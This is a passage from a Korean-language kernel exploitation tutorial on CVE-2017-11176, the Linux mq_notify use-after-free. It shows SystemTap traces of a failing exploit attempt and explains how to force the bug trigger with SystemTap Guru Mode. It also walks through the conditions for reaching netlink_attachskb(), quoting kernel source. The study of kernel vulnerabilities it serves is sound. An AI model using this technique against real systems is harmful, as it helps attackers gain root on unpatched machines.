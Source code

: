 ```plaintext
-={ CVE-2017-11176 Exploit }=-
sigev = 0x0x7fffb7eab660
mq_notify: Bad file descriptor
exploit failed!

(18771-18771) [SYSCALL] ==>> mq_notify (-1, 0x7fffb7eab660)           // <--- as expected!
(18771-18771) [uland] ==>> copy_from_user ()
(18771-18771) [skb] ==>> alloc_skb (priority=0xd0 size=0x20)
(18771-18771) [uland] ==>> copy_from_user ()
(18771-18771) [skb] ==>> skb_put (skb=0xffff88003d2e95c0 len=0x20)
(18771-18771) [skb] <<== skb_put = ffff88000a0a2200
(18771-18771) [vfs] ==>> fget (fd=0xffffffff)                         // <---- that's better!
(18771-18771) [vfs] <<== fget = 0
(18771-18771) [SYSCALL] <<== mq_notify= -9
```

이번엔 예상대로 처음으로 실패한 *fget()* 이후에 바로 *out* label로 갔다.

이제 우리는 어떤 보안 검사에도 막히지 않고 "retry" label에 도달할 수 있음을 알게 되었다. (syscall 대신 library wrapper에 의해 생기는) 일반적인 함정(trap)이 드러났고, 어떻게 대처하는지 보았다. 이제 나중에 같은 종류의 버그를 피하기 위해서, 모든 syscall을 감싸면(wrap) 되는 것이다.

이제 넘어가서 SystemTap을 이용하여 버그를 트리거해보자.

- - -

## <a name='forcing-the-trigger'></a>강제로 트리거하기

때로는 **떠오른 생각을 모든 커널 코드를 들여다보지 않고 검증하고** 싶을 것이다. 이번 섹션에선 *System Tap Guru Mode*를 이용하여 커널 데이터 구조를 수정하고 특정 커널 path로 가도록 강제할 것이다.

다시 말하자면 **버그를 커널 영역에서 트리거**할 것이다. 커널 영역에서조차 트리거를 할 수 없다면 유저 영역에서는 해낼 방법이 없다는 발상이다. 그럼 이제 커널을 수정하여 모든 요구 조건을 만족시키고, 하나 하나 유저 영역에서 구현해보자(part 2 참고).

우리는 다음 경우에 버그를 트리거할 수 있음을 상기하자:

1. "retry logic"에 도달했을 때. 즉, *netlink\_attachskb()* 에 먼저 진입한 후 1을 반환하도록 해야 한다. *sock* 레퍼런스 카운터는 1 감소할 것이다.
2. *retry* label로 다시 루프하고, 그 뒤에 *fget()* 을 호출했을 때 NULL이 반환되어야 한다. 그래야 exit path로 진입하고 *sock* 의 레퍼런스 카운터를 한 번 더 감소시킬 수 있다.

### Reaching *netlink\_attachskb()*

이전 섹션에서 버그를 트리거하기 위해 **netlink\_attachskb()**가 1을 반환해야 한다는 것을 보았다. 그러나 그 전에 몇 몇 요구 조건이 있다:

1. *유효한* file descriptor를 제공해야 *fget()*에 대한 첫 호출이 실패하지 않는다.
2. file descriptor가 가리키는 파일은 ***AF\_NETLINK* 타입의 소켓**이어야 한다.

즉, 우리는 모든 검사를 잘 통과해야 한다(?).

```c
    retry:
[0]       filp = fget(notification.sigev_signo);
          if (!filp) {
            ret = -EBADF;
            goto out;
          }
[1]       sock = netlink_getsockbyfilp(filp);
          fput(filp);
          if (IS_ERR(sock)) {
            ret = PTR_ERR(sock);
            sock = NULL;
            goto out;
          }
```
